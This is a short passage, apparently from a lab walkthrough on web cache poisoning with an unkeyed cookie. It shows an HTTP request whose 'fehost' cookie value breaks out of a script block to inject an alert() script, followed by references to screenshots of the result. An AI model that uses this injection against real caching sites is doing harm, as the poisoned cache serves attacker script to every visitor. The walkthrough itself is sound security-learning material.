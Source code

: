
I will send the following payload:

``` 
GET / HTTP/2
Cookie: session=OwRJHH4NdgNoL0ghzNHYgwQTFpmM6m0G; fehost=prod-cache-01"}</script><script>alert(1)</script><script>{"
...
``` 



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/3.png)


When accessing the page:



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/4.png)

